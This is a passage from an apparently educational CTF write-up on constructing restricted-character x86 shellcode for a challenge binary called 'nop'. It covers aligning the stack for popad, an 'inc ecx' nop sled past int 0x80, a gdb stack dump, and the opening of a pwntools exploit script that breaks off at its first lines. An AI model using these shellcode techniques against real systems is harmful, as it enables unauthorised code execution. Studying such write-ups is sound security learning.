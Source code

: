 Now that `eax` is equal to `0x3`, we can prep the `eax` value for the `popad` instruction:

```
; 6 F6 F6 F6 F1 F0
ss     inc esi ; 6F
ss     inc esi ; 6F
ss     inc esi ; 6F
ss     inc esi ; 6F
xor    DWORD PTR [esi+0x30], eax ; 1F0
```

Now the stack setup that we have for the `popad` instruction is currently `0x20` bytes above the current `esp` value. We will need to increment `esp` 32 times to move the stack into our stack setup for `popad`:

```
; D6 * 32
inc    esp  
ss inc esp 
```

After that is done, this is how the stack will look. Keep in mind that with a `popad` instruction, the order that registers are filled from the stack is `edi`, `esi`, `ebp`, `esp` (`esp` is set equal to `esp + 4` and the four bytes are skipped), `ebx`, `edx`, `ecx`, and `eax`:

```
───────────────────────────────────────────────────────────────────── stack ────
0xffba96ec│+0x0000: "OOOOOOOOOOOOOOOO"   ← $esp
0xffba96f0│+0x0004: "OOOOOOOOOOOO"
0xffba96f4│+0x0008: "OOOOOOOO"
0xffba96f8│+0x000c: "OOOO"
0xffba96fc│+0x0010: 0x00000000
0xffba9700│+0x0014: 0x60606120  →  "6A6A6A6A6A6A6A6A6A6A6A6A6A6A6A6A6A6A6A6A6A6A6A6A6A[...]"
0xffba9704│+0x0018: 0x60606120  →  "6A6A6A6A6A6A6A6A6A6A6A6A6A6A6A6A6A6A6A6A6A6A6A6A6A[...]"
0xffba9708│+0x001c: 0x00000003
─────────────────────────────────────────────────────────────── code:x86:32 ────
```

Now for the last thing we will add. We will just send a bunch of copies of the same instruction. The `edi` clearing we did earlier relies on the first opcode when anded by the second, being equal to `0x0`. Now even with these increments to the `ecx` register (some are negated by the `popad` call, but not all) we will still be scanning in input before the `int 0x80` call. To counter this we can just create a giant nop sled that goes past the `int 0x80` instruction (we have the space):

```
; A6
ss inc ecx ; A6 (400 times)
```

After that we can just send the secondary shellcode, and we will have a shell. Putting it all together, we get the following exploit:
```
# This exploit is originally from (and based off of): https://ctftime.org/writeup/10040

from pwn import *

target = process("./nop")
gdb.attach(target, gdbscript = 'entry-break')

```